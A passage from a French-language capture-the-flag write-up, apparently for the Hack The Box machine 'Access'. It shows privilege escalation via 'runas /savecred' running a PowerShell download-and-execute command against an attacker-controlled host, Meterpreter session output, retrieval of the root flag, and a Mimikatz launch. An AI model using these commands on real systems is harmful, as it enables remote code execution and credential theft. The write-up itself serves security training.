 On a les droits pour écrire des fichiers dans le dossier *ZKAccess3.5* mais pas suffisamment pour écraser le fichier *Access.exe*.  

Peu importe, à partir du moment où le système a conservé en mémoire le mot de passe on peut taper n'importe quelle commande *runas* du moment que l'on spécifie l'option */savecred* : Windows va utiliser le mot de passe *Administrator* conservé en mémoire. Il aurait fallu se renseigner sur une commande avant de l'utiliser comme ça ! :p  

On peut réutiliser le module *web\_delivery* :  

```bash
runas /user:administrator /savecred "cmd.exe /C powershell -nop -exec bypass -c IEX (New-Object net.webclient).downloadString('http://10.10.14.177:8080/imyRs8I0j3wnU')"
```

```plain
[*] 10.10.10.98      web_delivery - Delivering Payload
[*] Sending stage (206407 bytes) to 10.10.10.98
[*] Meterpreter session 3 opened (10.10.14.177:4444 -> 10.10.10.98:49161) at 2018-10-12 10:31:32 +0200

msf exploit(multi/script/web_delivery) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information                    Connection
  --  ----  ----                     -----------                    ----------
  2         meterpreter x64/windows  ACCESS\security @ ACCESS       10.10.14.177:4444 -> 10.10.10.98:49158 (10.10.10.98)
  3         meterpreter x64/windows  ACCESS\Administrator @ ACCESS  10.10.14.177:4444 -> 10.10.10.98:49161 (10.10.10.98)

meterpreter > cd c:/users/administrator/desktop
meterpreter > ls
Listing: c:\users\administrator\desktop
=======================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2018-08-21 23:55:15 +0200  desktop.ini
100666/rw-rw-rw-  32    fil   2018-08-22 00:07:29 +0200  root.txt

meterpreter > download root.txt
[*] Downloading: root.txt -> root.txt
[*] Downloaded 32.00 B of 32.00 B (100.0%): root.txt -> root.txt
[*] download   : root.txt -> root.txt
meterpreter > cat root.txt
6e1586cc7ab230a8d297e8f933d904cf
```

Pour le plaisir et comme aucun AV n'est présent on peut uploader et lancer un petit *Mimikatz* :  

```shellsession
c:\users\administrator\downloads>mimikatz.exe
mimikatz.exe

  .#####.   mimikatz 2.1.1 (x64) built on Sep 25 2018 15:08:14
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

```